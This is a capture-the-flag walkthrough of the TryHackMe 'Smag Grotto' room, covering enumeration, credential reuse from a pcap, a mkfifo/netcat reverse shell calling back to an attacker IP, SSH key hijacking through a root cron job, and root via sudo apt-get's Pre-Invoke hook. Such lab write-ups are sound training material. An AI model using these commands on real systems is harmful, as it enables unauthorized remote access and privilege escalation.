

# Smag Grotto

**Date:** 11, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/smaggrotto) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.10.140.17 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-11 11:30 IST

Nmap scan report for 10.10.140.17
Host is up (0.17s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 561.05 seconds
```

### Gobuster

```bash
$ gobuster dir -u http://10.10.140.17/ -t 50 -w /usr/share/wordlists/dirb/big.txt | tee gobuster.out===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.140.17/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/11 11:31:57 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/mail                 (Status: 301) [Size: 311] [--> http://10.10.140.17/mail/]
/server-status        (Status: 403) [Size: 277]                                
                                                                               
===============================================================
2021/06/11 11:33:09 Finished
===============================================================
```

### Home Page


### Mail Page


---

## Initial Access

### Analyzing the PCAP



- There is a `login.php` page at `development.smag.thm`
- Add `development.smag.thm` to `/etc/hosts` file


### Accessing Admin Panel

- Login using the credentials found in the pcap file:


### Reverse Shell

- Now that we have a web shell, we can get a reverse shell using:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.7.91 1234 >/tmp/f
```

- Once you get a reverse shell, upgrade it:

```bash
root@kali:~/Desktop/CTF/TryHackMe/smaggrotto# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.155.203] 36046
/bin/sh: 0: can't access tty; job control turned off
$ ls
admin.php
login.php
materialize.min.css
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@smag:/var/www/development.smag.thm$ export TERM=xterm
export TERM=xterm
www-data@smag:/var/www/development.smag.thm$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/Desktop/CTF/TryHackMe/smaggrotto# stty raw -echo;fg
nc -lvnp 1234

www-data@smag:/var/www/development.smag.thm$
```

---

## User Flag

- To access the User flag, we need to login as `jake`.

### Jake's public key

- Looking around the file system, I found **jake's public key** backup.
- But wait, public keys are useless. We need private key to login using ssh.
- May be we need to look for something else!

```bash
www-data@smag:/$ find / -name *id_rsa* 2>/dev/null
/opt/.backups/jake_id_rsa.pub.backup
www-data@smag:/$ cd opt
www-data@smag:/opt$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jun  4  2020 .
drwxr-xr-x 22 root root 4096 Jun  4  2020 ..
drwxr-xr-x  2 root root 4096 Jun  4  2020 .backups
www-data@smag:/opt$ cd .backups/
www-data@smag:/opt/.backups$ ls
jake_id_rsa.pub.backup
www-data@smag:/opt/.backups$ cat jake_id_rsa.pub.backup 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5HGAnm2nNgzDW9OPAZ9dP0tZbvNrIJWa/
[..snip..]
```

### Cron Jobs

- There was a cron job which was copying the `backup key` to `jake's authorized keys`:

```bash
www-data@smag:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

### Jake's Login

- Now generate a key pair and replace the public key with the newly generated key.
- Login using the private key:

```bash
$ ssh -i ~/.ssh/id_rsa jake@10.10.171.199
The authenticity of host '10.10.171.199 (10.10.171.199)' can't be established.
ECDSA key fingerprint is SHA256:MMv7NKmeLS/aEUSOLy0NbyGrLCEKErHJTp1cIvsxnpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.171.199' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ whoami
jake
jake@smag:~$ ls
user.txt
jake@smag:~$ cat user.txt 
<REDACTED>
```

---

## Root Flag

### Check for SUID bit

```bash
jake@smag:~$ find / -perm -u=s 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/ping6
/bin/ping
/bin/fusermount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

- Nothing interesting here!

### Check sudo permissions

```bash
jake@smag:/$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

- Jake can run `apt-get` as as root without password!


### Root Access

- Check `gtfobins` for privilege escalation using `apt-get` binary:

```bash
jake@smag:/$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
# cd /root      
# ls
root.txt
# cat root.txt
REDACTED
```

---